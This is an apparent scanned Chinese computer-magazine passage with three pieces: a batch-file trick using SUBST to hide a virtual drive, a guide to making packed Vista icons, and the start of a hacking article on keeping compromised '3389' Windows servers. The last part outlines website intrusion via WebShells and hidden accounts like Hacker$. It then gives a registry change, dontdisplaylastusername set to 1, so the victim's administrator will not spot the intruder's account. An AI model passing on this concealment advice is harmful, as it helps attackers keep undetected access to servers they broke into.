

图1



图2

我个人觉得这第二种方法要好一点，因为这样就避免自己的“宝贝儿”们被别人惦记了。可是新的问题又来了……

其实只要做一个批处理，就可以建一个隐藏的盘符。只要把这个批处理做好，别人就不会想到咱有隐藏盘符的，对吧？

```bat
MD D:\RECYCLED\UDrives\{25336920-03F9-11CF-8FD0-00AA00686F13}>NUL
IF EXIST R:\NUL GOTO DELETE
SUBST R: D:\RECYCLED\UDrives\{25336920-03F9-11CF-8FD0-00AA00686F13}
START R:\
GOTO END
:DELETE
SUBST /D R:
:END
```

先不用管这些代码是什么意思，咱们先一步步建成一个试下效果。第一步是新建一个文本文档，如图1。第二步把上面代码复制到里面。第三步把“txt”改成“bat”（或“cmd”），我们以“bat”为例，如图2。接下来运行一下，这时就会弹出一个界面，如图3。



图3

里面是空的，因为我们还没有放东西。我们来看下“我的电脑”，如图4，是不是多了一个“R”盘符呢。

```bat
@ECHO OFF  // 是说以下代码都不显示
```

我们再来点一次刚才保存的批处理，再打开“我的电脑”看，是不是刚才的“R”盘符没有了，如图5。啊~~神奇吧，还等什么呢，还不快去把你的“宝贝儿”放进去。





结束了，今天就到这里吧，我要走喽，慢慢消化吧。小提示：当你不想把虚拟硬盘建在“D”盘时，也可以把它存放在别的地方哟，如把代码里的“D”改成“C”，就会建在你的 C 盘了。建立的虚拟盘符是“R”盘，是不是看着不爽呢？也可以用同样的方法修改成你喜欢的哟。

### 制作打包图标的简单方法



最近有朋友问了我一下打包的图标都是怎样做的。什么是打包的图标？在 Vista 和 Win7 下，我们经常看见在不同的查看方式下，有的程序图标会显示出不同的大小，不会像以前的图标那样容易出现图标模糊的情况。我们可以看看图1里 COD4 的图标在不同查看方式下的对比，很明显不仅不会出现模糊的情况，而且在不同情况下甚至还可以显示不同的图标；但是在 XP 下情况不太一样，都是默认显示那一个 ico，如图2所示。在 Windows 里图标的后缀是“ico”。



现在开始具体说明如何制作。在这我们使用的是一款叫“ArtIcons Pro”的软件，软件版本是 5.24。ArtIcons 软件界面如图3所示，比较直观。在右上角那个图标（显示 32bpp 的那个）上点击右键，出现如图4所示菜单，点击“复制图像”，多复制几次，待会可以用得上。而且因为现在的图像分辨率是最高的，如果在低分辨率下转换高分辨率图标会比较模糊（有损），还是推荐多复制几份高分辨率图片，这样之后做出来的图标显示效果也好很多。然后随意选择一幅复制好的图像，点击图4菜单上的“图像转换”按钮，在跳出的对话框选择 32x32。另外比较重要的是要勾选“打包（用于 Windows Vista）”这一项，如图5所示。当你点击确定后它会提示“打包的图像无法在 Windows XP 下显示”，就是说，第一个没有勾选打包项的图像会直接在 XP 下显示出来，而其它选择了“打包”的则不会在 XP 下显示出来，所以这个不打包的图像要选好，在这可以选择 48x48 作为不打包的图像。



我这处理好图像后的软件界面如图6所示。之后点击文件，另存为，保存类型选择“Icon”。





图5

保存之后就可以用了。我们可以选择使用各种查看方式来查看，不过有时候也容易因为缓存问题而并没有按照我们的要求来显示，所以我们在这选择进一步把它嵌入到应用程序中去测试查看。

打开 Visual Studio 2008，在这我就使用 C# 编译器来演示了。在项目名称上点击右键，属性。在出现的属性窗口上选择“应用程序”一项，旁边有一个“图标和清单”，下面的图标项就可以选择我们的图标，如图7所示，然后重新编译我们的项目即可。应用程序的图标示例如图8所示。



图7



图6



图8

写到这也就完了，不要看一个小小的图标，里面还挺有学问的。在这稍微用了下汉化组的 logo 来做演示，希望大家不要怪我……另外，在平日里需要发布的程序，一般情况下我们还是自己加上一个图标来对程序进行一定的美化，要不默认图标是非常不给力的……最后祝大家天天开心！周末了，散伙饭喝酒要适度！健康最重要！

## 挽肉 3389 网站的流星之作

年晓东

近几年，猜解后台登录地址、下载数据库和注入等方式已经成了入侵网站的最主要方式。在登录到网站后台管理界面之后，紧接着的一步便是通过上传小木马的手段来拿 WebShell；然后在大马中进行登录账号的添加和授权操作，查看或开设 3389 终端之类的远程服务。然后，就没有然后了——通常的入侵手记都是到此便戛然而止了，没有了下文。当然，进行到这一步其实已经与五六年之前的入侵接轨成功了，那时的入侵很多都是通过 X-Scan 之类的扫描器进行账号的空、弱口令和开放端口等侦查，然后就可以登录 3389 肉鸡了。

其实，辛辛苦苦半天，谁都不愿意到手的肉鸡在很短时间内（甚至只使用了一次）飞走；但是出现了这样的状况，你有没有想过其中的原因呢？

其实，很有可能是我们在不经意间所忽略的一个小细节而导致了这样的“恶果”，那就是没有擦除最后登录用户的痕迹！虽然对方网管可能仅仅因为使用了某网站模板的默认 admin 账号、默认 admin 或 admin888 密码而被你抓住机会，但再笨的网管也会在某次服务重启后的登录界面中发现那个被提权的隐藏黑客账号（比如 Hacker$）赫然出现在“用户名”（如图1）！如果真的出现这样的情况，估计再白痴的网管也会在头脑中闪过“被黑了”的念头，下一步自然就是使用自己的 Administrator 账号（我们一般都不会动这个的吧？——那样被察觉得更快）登录，在“本地用户和组”中查个水落石出不可！即使我们之前提权的账号是 Guest，一般网管都会在这样的非默认 Administrator 登录界面前打个激灵的。如何避免这样的蛛丝马迹呢？

其实，要解决如此“严重”的问题非常简单，我们只需要多做一步小小的设置工作就可以了。在 3389 肉鸡上打开注册表编辑器（“开始”→“运行”，输入“Regedit”后点击“确定”按钮），依次找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system` 项，然后在其右侧窗格中找到“dontdisplaylastusername”（意思就是“不显示上次登录的用户名”），双击打开进行编辑，将其“数值数据”由 XP 系统默认的 0 值修改为 1（如图2），点击“确定”按钮即可设置为有效状态，然后按 F5 键刷新一下并关闭注册表编辑器。



图1

